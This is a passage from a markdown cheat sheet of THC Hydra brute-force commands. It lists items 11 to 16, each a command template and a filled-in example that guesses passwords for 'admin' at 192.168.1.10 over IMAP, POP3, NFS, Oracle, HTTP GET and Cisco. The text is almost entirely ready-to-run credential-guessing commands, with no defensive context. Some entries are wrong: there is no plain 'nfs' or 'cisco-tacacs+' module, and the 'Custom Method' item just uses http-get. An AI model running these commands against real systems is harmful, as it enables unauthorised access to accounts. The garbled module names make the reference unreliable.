 11. **IMAP (Internet Message Access Protocol)**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> imap://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt imap://192.168.1.10
      ```

12. **POP3 (Post Office Protocol)**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> pop3://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt pop3://192.168.1.10
      ```

13. **NFS (Network File System)**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> nfs://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt nfs://192.168.1.10
      ```

14. **Oracle**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> oracle://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt oracle://192.168.1.10
      ```

15. **HTTP(S) with Custom Method**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> http-get://<target>/<path>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt http-get://192.168.1.10/admin
      ```

16. **Cisco (Various Services)**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> cisco-tacacs+://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt cisco-tacacs+://192.168.1.10
      ```
